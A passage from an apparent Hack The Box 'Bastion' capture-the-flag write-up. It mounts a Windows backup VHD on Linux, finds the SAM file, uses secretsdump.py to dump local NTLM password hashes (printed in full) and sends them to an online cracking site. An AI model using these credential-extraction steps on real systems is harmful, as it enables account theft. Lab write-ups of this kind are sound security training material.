 ```
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml                                           cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml                                     cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
root@w0lf:~/CTF/HTB/Boxes/Bastion/vhd/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# 
```

Now it's time to mount them, before that make sure you have `libguestfs-tools` to mount virtual hard disk files on Linux.

```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount# guestmount --add ~/CTF/HTB/Boxes/Bastion/vhd/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro ~/CTF/HTB/Boxes/Bastion/mount/
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount# ls
'$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount# 
```

Found an user, but no user flag.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Users# ls
'All Users'   Default  'Default User'   desktop.ini   L4mpje   Public
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Users# 
```

But I can see the `SAM` file.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Windows/System32/config# ls -la SAM
-rwxrwxrwx 1 root root 262144 Feb 22  2019 SAM
```
>What is SAM (Security Account Manager)?
The Security Account Manager is a database file in Windows XP, Windows Vista, Windows 7, 8.1 and 10 that stores users' passwords. It can be used to authenticate local and remote users.

I used `secretsdump.py` to dump the hashes.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion/mount/Windows/System32/config# secretsdump.py LOCAL -system SYSTEM -sam ./SAM
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```

I used [Crackstation](https://crackstation.net/) to crack these hashes.
